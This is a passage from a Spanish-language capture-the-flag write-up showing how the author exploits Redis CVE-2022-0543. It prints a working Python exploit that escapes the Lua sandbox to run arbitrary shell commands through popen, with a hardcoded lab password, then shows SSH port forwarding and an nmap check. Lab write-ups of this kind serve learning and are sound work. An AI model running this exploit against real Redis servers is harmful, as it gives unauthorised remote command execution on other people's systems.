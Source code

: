 ### Redis CVE-2022-0543 

El *script* es un código en python que he modificado ligeramente. Le he añadido el campo ***password*** con la contraseña de *Redis* para que al ejecutarlo nos podamos autenticar. También he *hardcodeado* la ip y el puerto para que la ejecución sea mas rápida.

```python
import redis
import sys

def echoMessage():
	version = """  
      [#] Create By ::
        _                     _    ___   __   ____                             
       / \   _ __   __ _  ___| |  / _ \ / _| |  _ \  ___ _ __ ___   ___  _ __  
      / _ \ | '_ \ / _` |/ _ \ | | | | | |_  | | | |/ _ \ '_ ` _ \ / _ \| '_ \ 
     / ___ \| | | | (_| |  __/ | | |_| |  _| | |_| |  __/ | | | | | (_) | | | |
    /_/   \_\_| |_|\__, |\___|_|  \___/|_|   |____/ \___|_| |_| |_|\___/|_| |_|
                   |___/            By https://aodsec.com                                           
    """
	print(version)

def shell():
    lua= 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("'+cmd+'", "r"); local res = f:read("*a"); f:close(); return res'
    r  =  redis.Redis(host = '127.0.0.1',port = '6379', password = 'F2WHqJUz2WEz=Gqq')
    script = r.eval(lua,0)
    print(script)

if __name__ == '__main__':
	while True:
		cmd = input("input exec cmd:(q->exit)\n>>")
		if cmd == "q" or cmd == "exit":
			sys.exit()
		shell()
```

Lo que voy a hacer es hacer ***port forwarding*** para que el puerto 6379 del localhost de la máquina víctima se convierta al puerto 6379 del localhost de mi máquina. De esta manera vamos a poder ejecutar el *script* desde nuestra máquina. El *port forwarding* lo podemos hacer con ***SSH*** con la **opción -L**:

```-L 127.0.0.1:6379:127.0.0.1:6379 o -L 6379:127.0.0.1:6379```

<img src="/photos/2022-09-30-Shared-WriteUp/portforwarding.png" alt="drawing"  />  

En este punto, nuestro puerto 6379 debería de estar ocupado por el servicio *Redis* de la máquina víctima. Para comprobarlo, podemos tirar un *nmap* contra nuestro localhost:

```python
nmap -T5 -v --open -p- -n localhost
6379/tcp  open  redis
```
